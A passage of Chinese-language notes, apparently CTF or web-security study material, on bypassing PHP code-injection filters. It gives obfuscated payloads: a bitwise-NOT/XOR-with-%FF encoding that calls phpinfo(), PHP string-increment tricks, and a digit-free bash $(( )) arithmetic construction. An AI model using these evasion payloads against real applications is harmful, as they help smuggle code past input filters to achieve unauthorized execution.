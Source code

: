 ```php
    {
        $k = $arr[$y];
        if ($shell[$x] == ~($k{1}))
        {
            $result .= $k{1}; //汉字中指定的unicode编码
            // $result .= $k; //单个汉字
            break;
        }
    }
}
echo urlencode($result);

//strtolower()



```

```php

如果直接取反不行，可以使用异或%FF

因为异或全1和取反效果相同

phpinfo->

~%8F%97%8F%96%91%99%90

((%8F%97%8F%96%91%99%90)^(%FF%FF%FF%FF%FF%FF%FF))();

```



## 自增自减

```php

"A"++ ==> "B"  ,演示的时候注意++A和A++的区别

"B"++ ==> "C"



```



## `$(())`数学运算(适用于多种进制)

```php
$(())=0
~$(())=~0 #取反
$((~$(())))=-1 #对-0进行数学运算

$((~$(($((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(()))))))) #36 先对零取反再运算得-1，36个-1相加再取反得36

```
